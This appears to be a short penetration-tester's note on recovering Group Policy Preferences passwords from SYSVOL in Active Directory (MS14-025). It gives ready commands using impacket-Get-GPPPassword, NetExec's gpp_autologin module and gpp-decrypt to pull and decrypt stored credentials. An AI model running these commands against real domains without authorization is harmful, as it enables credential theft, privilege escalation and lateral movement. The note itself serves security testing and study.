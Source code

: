 ```yaml
---
tags:
  - Authenticated
  - Lateral-Movement
  - Privilege-Escalation
  - SMB
  - Unauthenticated
  - AD
---
```

When a new GPP is created, an .xml file is created in the SYSVOL share, which is also cached locally on endpoints that the Group Policy applies to.
## Identify
---

Tools: impacket, [gpp-decrypt](https://github.com/t0thkr1s/gpp-decrypt)


This was patched in 2014 MS14-025 Vulnerability in GPP could allow elevation of privilege, to prevent administrators from setting passwords using GPP. The patch does not remove existing Groups.xml files with passwords from SYSVOL. If you delete the GPP policy instead of unlinking it from the OU, the cached copy on the local computer remains.
Groups.xml

cpassword field
## Exploit
---

Check null pass first (higher severity)

```bash
impacket-Get-GPPPassword.py -no-pass 'DOMAIN_CONTROLLER'
```

with creds

```bash
impacket-Get-GPPPassword.py 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'
```


or

```Bash
nxc smb 172.16.5.5 -u 'user' -p 'pass' -M gpp_autologin
```

Then decrypt:

```Bash
gpp-decrypt <cpasswd>
```